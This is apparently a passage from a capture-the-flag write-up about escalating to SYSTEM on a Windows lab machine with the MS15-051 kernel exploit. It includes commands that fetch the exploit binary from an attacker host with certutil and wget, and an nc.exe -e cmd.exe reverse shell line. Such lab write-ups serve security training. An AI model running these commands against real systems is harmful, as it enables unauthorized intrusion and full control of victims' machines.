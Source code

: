 
```dos
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
```

### MS15-051

- The given exploit by sherlock requires metasploit. If we search around a little we find [this article](https://vk9-sec.com/windows-exploit-ms15-051-cve-2015-1701-privilege-escalation/) that gives an exploit without metasploit
- `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip` get the exploit in our kali
- `unzip MS15-051-KB3045171.zip` we unzip it
- `certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe exploit64.exe` we get the exploit (we need x64 see systeminfo above)
- We launch it it needs a command we will use cmd `exploit64.exe cmd` and get an autority system shell.  
We could also have used a command like `nc.exe IP-OF-KALI PORT -e cmd.exe` and we would get a reverse shell as system (do not forget to set up a listener if you do this)  
![whoami](../.res/2022-09-10-16-20-21.png)  
- We just need to grab the root flag `type C:\Users\Administrator\Desktop\root.txt`  
![root flag](../.res/2022-09-10-16-21-31.png)  

